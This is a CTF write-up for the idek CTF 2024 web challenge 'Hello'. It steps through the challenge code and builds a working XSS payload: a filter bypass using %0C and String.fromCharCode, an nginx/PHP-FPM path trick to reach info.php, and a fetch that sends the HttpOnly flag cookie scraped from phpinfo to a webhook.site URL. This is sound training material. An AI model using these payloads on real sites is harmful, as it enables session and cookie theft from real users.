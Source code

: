 ```yaml
---
layout: post
title: "Idek CTF 2024 - Hello [Web]"
date: 2024-08-18 00:00:00
description: "Idek CTF 2024 - Hello [Web] Writeup"
tag:
  - Web
---
```


After a long hiatus from updating articles, this time an update will cover the writeup for the Web Idek CTF 2024 challenge called 'Hello'. This article is being written because it is considered particularly interesting.

**Challenge Description:**\
`Just to warm you up for the next Fight :"D`
`Note: the admin bot is not on the same machine as the challenge itself and the`
`.chal.idek.team:1337 URL should be used for the admin bot URL`\
`Author: Abdelhameed Ghazy`

[Chall](http://idek-hello.chal.idek.team:1337/)\
[Admin Bot](https://admin-bot.idek.team/idek-hello)\
[Attachments](https://idekctf-challenges.storage.googleapis.com/uploads/f64f1dd16fae27e943a8f7dab349e00509f39c63bb2278328ac5783d867fa393/idek-hello.tar.gz)

**Analysis:**\
Since this challenge is a Whitebox challenge with the provided source code, a source code review must be conducted first. The structure of the provided source code files is as follows:

├── bot.js\
├── docker-compose.yml\
├── hello\
│   ├── Dockerfile\
│   ├── init.sh\
│   ├── nginx.conf\
│   └── src\
│   ├── index.php\
│   └── info.php\
└── tes.md

3 directories, 8 files

Based on the file structure, there is a bot.js file, which likely indicates a typical client-side challenge.

**First Analysis on the bot.js:**

```javascript
...SNIP...
const visit = async () => {
    let browser;
    try {
        browser = await puppeteer.launch({
            headless: true,
            pipe: true,
            args: [
                "--no-sandbox",
                "--disable-setuid-sandbox",
                "--js-flags=--noexpose_wasm,--jitless",
            ],
            dumpio: true
        });

        const ctx = await browser.createBrowserContext();

        const page = await ctx.newPage();
        await page.goto(CHALLENGE_ORIGIN, { timeout: 3000 });
        await page.setCookie({ name: 'FLAG', value: 'idek{PLACEHOLDER}', httpOnly: true });
        await page.goto(TARGET_URL, { timeout: 3000, waitUntil: 'domcontentloaded' });
        await sleep(5000);

        await browser.close();
        browser = null;
    } catch (err) {
        console.log(err);
    } finally {
        if (browser) await browser.close();
    }
};
...SNIP...
```

According to the bot.js file, the FLAG is located in the bot’s cookies, which are simulated as Admin user. Given that the FLAG is stored in a cookie, it can be inferred that this is a Cross-site Scripting (XSS) challenge. However, it is important to note that the cookie has the 'httponly' attribute set to 'true'. This means there is protection in place, preventing the stealing of cookies using JavaScript's document.cookie.

Based on an article from [HackCommander](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/), it is possible to bypass HttpOnly and exfiltrate cookies via the PHP Info page.

**Second Analysis on the index.php:**

```php
<?php

function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}

?>
```

In the index.php file, there is a Cross-site Scripting (XSS) vulnerability in the 'name' parameter, which renders user input. However, there is a filter in the Enhanced_Trim function that prevents the use of characters such as '\r', '\n', '\t', '/', and ' ' (spaces) for constructing the XSS payload.

**Third Analysis on the nginx.conf:**

```bash
...SNIP...
location = /info.php {
allow 127.0.0.1;
deny all;
}

location ~ \.php$ {
root    /usr/share/nginx/html;
fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
include fastcgi_params;
fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
...SNIP...
```

In the Nginx configuration file, there is a vulnerability related to unsafe path restrictions to the /info.php endpoint. Without further research, it might seem that the info.php file is not the way to obtain the FLAG in the Admin’s cookies. However, as outlined in the [HackCommander](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/) cookies can be exfiltrated via the PHP Info page, making this page highly valuable. It is also noted that the website is using PHP-FPM..

**How to Solve?**\
From the analysis conducted, the steps to solve the challenge can be outlined as follows:

1. Bypass the Cross-site Scripting (XSS) filter on the /index.php endpoint using the 'name' parameter (http://target/index.php?name=payload)
2. Bypass the unsafe path restriction to gain access to the info.php (http://target/info.php) page
3. Exfiltrate Admin cookies via the PHP Info page

Since the flow is now clear, exploitation can begin immediately.

**Bypass Filter XSS:**

1. Bypass spaces (' ') using the null byte %0, referencing [ctftime](https://ctftime.org/writeup/32720)
2. Bypass slashes ('/') using String.fromCharCode.

**Bypass Path Restriction Nginx PHP-FPM:**

1. Access to /info.php, which should only be allowed from 127.0.0.1, can be bypassed through path manipulation (http://target/info.php/index.php) [sumber](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass)

**Final Payload:**\
Using the discovered bypass techniques, an XSS payload is constructed to steal cookies from the PHP Info page using the following regex:

```javascript
// Convert to decimal
fetch("http://idek-hello.chal.idek.team:1337/info.php/index.php")
  .then((response) => response.text())
  .then((data) => {
    const regex = /idek\{.*?\}/g;
    const matches = data.match(regex);
    if (matches) {
      fetch(
        "https://webhook.site/e9f955cb-6075-43a9-a58a-521db006edcd" +
          "?encodedMatches=" +
          btoa(matches),
        { method: "GET" }
      );
    }
  });

// Final Payload
http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=javascript:eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,58,47,47,105,100,101,107,45,104,101,108,108,111,46,99,104,97,108,46,105,100,101,107,46,116,101,97,109,58,49,51,51,55,47,105,110,102,111,46,112,104,112,47,105,110,100,101,120,46,112,104,112,39,41,46,116,104,101,110,40,114,101,115,112,111,110,115,101,32,61,62,32,114,101,115,112,111,110,115,101,46,116,101,120,116,40,41,41,46,116,104,101,110,40,100,97,116,97,32,61,62,32,123,99,111,110,115,116,32,114,101,103,101,120,32,61,32,47,105,100,101,107,92,123,46,42,63,92,125,47,103,59,99,111,110,115,116,32,109,97,116,99,104,101,115,32,61,32,100,97,116,97,46,109,97,116,99,104,40,114,101,103,101,120,41,59,105,102,32,40,109,97,116,99,104,101,115,41,32,123,102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,101,57,102,57,53,53,99,98,45,54,48,55,53,45,52,51,97,57,45,97,53,56,97,45,53,50,49,100,98,48,48,54,101,100,99,100,39,32,43,32,39,63,101,110,99,111,100,101,100,77,97,116,99,104,101,115,61,39,32,43,32,98,116,111,97,40,109,97,116,99,104,101,115,41,44,32,123,32,109,101,116,104,111,100,58,32,39,71,69,84,39,32,125,41,59,125,125,41,59))>
```

Simply send the final payload to the Admin Bot, and the Bot will trigger the payload to exfiltrate the FLAG via the PHP Info page, allowing the flag to be retrieved through the webhook.
![Webhook](/assets/img/Idek-CTF-2024-Hello/flag.png)

**Flag:** idek{Ghazy_N3gm_Elbalad}
